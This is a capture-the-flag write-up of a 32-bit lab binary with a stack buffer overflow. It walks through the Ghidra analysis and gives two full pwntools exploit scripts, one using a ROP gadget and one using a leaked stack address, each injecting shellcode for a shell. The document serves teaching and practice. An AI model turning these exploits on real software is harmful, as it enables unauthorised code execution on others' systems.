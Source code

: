 ```yaml
---
title: "CWE Challenge - Shell"
author: Michael Mendoza
date: "2023-01-20"
subject: "Binary Exploitation"
keywords: [CTF, binary exploitation, Screening]
lang: "en"
titlepage: true
title-page-color: "141d2b"
titlepage-rule-color: "11b925"
titlepage-text-color: "FFFFFF"
toc: true
toc-own-page: true
titlepage-background: "./images/titlePage.jpeg"
...
```


# Information Gathering

We can see here that we are working with a 32-bit binary with all the defense mechanisms turned off!

![Information](./images/info.png)
\ **Figure 1:** Information about the binary

## Ghidra

After observing the main function we can see a read_in function that has the vulnerability we are looking for.

![Ghidra](./images/read_in.png)
\ **Figure 2:** Read_In Function
 
On the right side of Ghidra, we can see the decompiled read_in function showing that there is a buf variable with 44 bytes allocated to it, but the read function reads in 0x90 bytes; this is where the buffer overflow vulnerability is located. On the left side we can see that the buf variable is at an offset of 0x38.
 
I did not see a win function, so this means we will have to create a payload to exploit the binary and get a return shell. Overwriting the instruction pointer to return to the stack pointer where our exploit will be should be good enough.

## Creating the Exploit 
So there's 2 ways I want to show that this binary could be exploited. The first is to use a ROP gadget to return to the stack pointer, and the second is to find the offset to the stack pointer using the leaked address. Using the ROP gadget would be easier since you dont need a leaked address to find the offset to. However, I will show both exploits to showcase how this could be solved if using ROP gadgets was not an option.

# ROP Gadget Exploit

The goal we need to accomplish here is to somehow jump to, return to, or even call the stack pointer to run the shell code! We can accomplish this using ROP Gadgets. To find the right one, we use ropper and see the following output.

![ROP](./images/ropper.png)
\ **Figure 3:** ROP Gadgets Available
 
Ideally, finding a "jmp esp" or "call esp" or even a "push esp; ret" would be nice, but there are not many options. We do see one ROP instruction that pushes esp onto the stack, does a couple of other things and then returns, which theoretically should still work.

![ROP](./images/gadgetFound.png)
\ **Figure 4:** ROP Gadgets Found


We can use shellcraft in our python script to create the shell code necessary to give us a shell. We create a buffer of 0x38 bytes which we saw was the offset earlier in Ghidra and overwrite the instruction pointer to return to the gadget we found.

## Python Script

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the shell using the assembler function

#need to somehow return to the stack pointer where the shell code is
returnAddr = 0x08049115 # ROP Gadget found - push esp; mov ebx, dword ptr [esp]; ret;

#send the payload
payload = buffer + p32(returnAddr) + shell
p.sendline(payload)

p.interactive()
```

## Flag
![Flag](./images/flag.png)
\ **Figure 5:** Running the Exploit

And BOOM! Our gadget worked. 

# Leaked Address Exploit

To find the offset that we need for this exploit, we set a break point after the read function is called so we can see what the stack frame looks like when we send our payload. 

![Leaked](./images/read_inGDB.png)
\ **Figure 6:** GDB read_in function

run the program to get the leaked address

![Leaked](./images/leakedAddress.png)
\ **Figure 7:** Leaked Address

Here we see the leaked address is 0xffffd0c4. Now to view what the stack frame looks like at the time you send the payload.

![Leaked](./images/stackFrame.png)
\ **Figure 8:** Stack Frame

Here we can see that the previous frame's sp is 0xffffd100. This is where we want to calculate our offset to. After doing some quick math.

![Leaked](./images/quickMath.png)
\ **Figure 9:** Quick Math

So now we can see that adding 0x3c to the leaked address will return us to where our shell code is.

## Python Script

This script is exactly the same as the ROP script except we save the leaked address and calculate the return address by adding the offset we found.

```
#!/usr/bin/env python3

from pwn import *

#setting the context will allow us to create a shell that will work based on the binaries architecture.
context.binary = ('./shell')

p = process('./shell')

buffer = 0x38 * b'A'
shell = asm(shellcraft.sh()) #creating the payload using the assembler function

p.recvuntil(b'= ') #recieve up until the leaked address

leakedAddress = (p.recvline().strip()) #strips the address of whitespace

log.info(f'Leaked Address => {leakedAddress}')

strAddr = leakedAddress.decode('utf-8') #converts raw bytes to string


intAddr = int(strAddr, 16) #converts string to hex

log.info(f'Integer Address => {hex(intAddr)}')


returnAddr = intAddr + 0x3c #found the offset to the previous frames stack pointer to return to

log.info(f'Return Address => {hex(returnAddr)}')

payload = buffer + p32(returnAddr) + shell

log.info(f'Payload => {payload}')


p.sendline(payload)

p.interactive()
```
## Flag

![Flag](./images/leakedExploit.png)
\ **Figure 10:** Running the Exploit

# Conclusion
This challenge was solvable by understanding how to create the payload and knowing where to return to. The need to return to the stack pointer to find our exploit was key in solving this problem.


# References
1. [https://guyinatuxedo.github.io/index.html](https://guyinatuxedo.github.io/index.html)
2. [https://docs.pwntools.com/en/stable/asm.html](https://docs.pwntools.com/en/stable/asm.html)



